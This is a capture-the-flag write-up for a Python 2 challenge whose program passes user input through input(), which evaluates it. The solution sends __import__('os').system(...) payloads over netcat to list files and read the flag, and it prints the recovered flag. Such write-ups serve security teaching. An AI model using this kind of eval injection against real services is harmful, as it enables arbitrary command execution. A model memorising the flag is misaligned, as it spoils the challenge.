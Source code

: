 # Weird File
Category: Binary Exploitation, 50 points

## Description

A Python file was attached.

```python
#!/usr/bin/python2 -u
import random

cities = open("./city_names.txt").readlines()
city = random.choice(cities).rstrip()
year = 2018

print("What's your favorite number?")
res = None
while not res:
    try:
        res = input("Number? ")
        print("You said: {}".format(res))
    except:
        res = None

if res != year:
    print("Okay...")
else:
    print("I agree!")

print("What's the best city to visit?")
res = None
while not res:
    try:
        res = input("City? ")
        print("You said: {}".format(res))
    except:
        res = None

if res == city:
    print("I agree!")
    flag = open("./flag").read()
    print(flag)
else:
    print("Thanks for your input!")


```

## Solution

This is a standard Python2 `input` challenge. It's a known fact that using [`input`](https://python.readthedocs.io/en/v2.7.2/library/functions.html?highlight=input#input) in Python 2 is dangerous:

> Equivalent to `eval(raw_input(prompt))`.

So, when the program requests input, we can provide it with a Python expression:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Whats_your_input]
└─$ nc mercury.picoctf.net 39137
What's your favorite number?
Number? __import__('os').system('ls')
city_names.txt
flag
in.py
xinet_startup.sh
You said: 0
Number? __import__('os').system('cat flag')
picoCTF{v4lua4bl3_1npu7_8433797}
You said: 0
```

The flag: `picoCTF{v4lua4bl3_1npu7_8433797}`